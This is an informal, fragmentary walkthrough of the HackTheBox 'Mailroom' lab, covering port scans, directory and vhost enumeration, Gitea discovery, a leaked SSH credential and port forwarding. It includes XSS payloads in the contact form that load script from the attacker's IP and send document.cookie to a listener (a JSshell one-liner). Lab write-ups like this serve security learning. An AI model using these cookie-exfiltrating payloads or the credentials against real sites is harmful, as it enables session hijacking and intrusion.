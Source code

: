 └─$ nmap 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 22:00 EDT
Nmap scan report for 10.10.11.219
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.85 se

mailroom.htb

we will add that to /etc/hosts

dirb mailroom.htb

gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

there is a contact.php tho

![](20230701233408.png)

has an xss!

has two xsss

its a manual review so lets see if the xss can connect back 

dirb result

```
----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mailroom.htb/ ----
==> DIRECTORY: http://mailroom.htb/assets/                                                                         
==> DIRECTORY: http://mailroom.htb/css/                                                                            
==> DIRECTORY: http://mailroom.htb/font/                                                                           
+ http://mailroom.htb/index.php (CODE:200|SIZE:7748)                                                               
==> DIRECTORY: http://mailroom.htb/inquiries/                                                                      
==> DIRECTORY: http://mailroom.htb/javascript/                                                                     
==> DIRECTORY: http://mailroom.htb/js/                                                                             
+ http://mailroom.htb/server-status (CODE:403|SIZE:277)                                                            
+ http://mailroom.htb/template (CODE:403|SIZE:277)                                                                 
                                                                                                                   
---- Entering directory: http://mailroom.htb/assets/ ----
+ http://mailroom.htb/assets/favicon.ico (CODE:200|SIZE:134582)                                                    
                                                                                                                   
---- Entering directory: http://mailroom.htb/css/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/font/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/inquiries/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/ ----
==> DIRECTORY: http://mailroom.htb/javascript/jquery/                                                              
                                                                                                                   
---- Entering directory: http://mailroom.htb/js/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/jquery/ ----
+ http://mailroom.htb/javascript/jquery/jquery (CODE:200|SIZE:287600)                                              
                                                                        
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailroom.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 22:29:02 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://mailroom.htb/assets/]
/css                  (Status: 301) [Size: 310] [--> http://mailroom.htb/css/]
/template             (Status: 403) [Size: 277]
/js                   (Status: 301) [Size: 309] [--> http://mailroom.htb/js/]
/javascript           (Status: 301) [Size: 317] [--> http://mailroom.htb/javascript/]
/font                 (Status: 301) [Size: 311] [--> http://mailroom.htb/font/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/07/02 01:49:02 Finished
===============================================================

```


```
POST /contact.php HTTP/1.1
Host: mailroom.htb
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mailroom.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mailroom.htb/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ashwin%40instagram.com&title=ashwin&message=ashwin
```

<img src="10.10.16.24:8000/test.jpg" /> <script src="http://10.10.16.24:8000/cookie.js"></script>

![](20230702070727.png)

getting this

no cookie

so maybe we can try

https://github.com/shelld3v/JSshell

jsh.py -g

<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.16.24:4848/?".concat(document.cookie)},1010)</script>

it does give us a shell but for what?

![](20230702101704.png)

need to look for alternatives.

so obviously this is different from pilgrimae as we know it

this is mailroom htb.
and there is already a machine called mailroom so! maybe they goofed up the machines?

yes they did

![](20230702102326.png)

hahaha. anywhoo.

dirsearch -u http://mailroom.htb -t 200

```
 gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u mailroom.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://mailroom.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/02 20:23:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.mailroom.htb Status: 200 [Size: 13201]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/02 20:23:57 Finished

```

lets add to /etc/hosts 

![](20230702202632.png)

got a gittea directory.

lets do adirectory enumeration on subdomain

we will get to know th eusers of gitea

in the repo htereis a metnion of another subdomain

staff-review-panel.mailroom.htb

https://hyperbeast-es.translate.goog/mailroom-htb/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp

using fuff to enumerate the subdomain

```
ffuf -w /snap/seclists/25/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.mailroom.htb" -u http://mailroom.htb -fs 7746
```

```
dirsearch -u http://git.mailroom.htb -t 200 -x 500
```

```
        // Send an email to the user with the 2FA token
        $to = $user['email'];
        $subject = '2FA Token';
        $message = 'Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=' . $token;

```

tristan 69trisRulez!

![](20230725075251.png)

by using 

`ssh -L 8080:127.0.0.1:80 tristan@10.10.11.209`

after this we can add entry in the localhost for mailroom panel

![](20230725075723.png)







